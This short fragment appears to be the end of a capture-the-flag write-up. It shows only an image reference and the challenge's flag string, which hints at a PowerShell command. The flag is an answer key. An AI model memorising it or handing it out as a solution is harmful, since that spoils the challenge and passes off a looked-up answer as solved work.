

**FLAG: HTB{h0w_c4N_y0U_s3e_p05H_c0mM4nd?}**


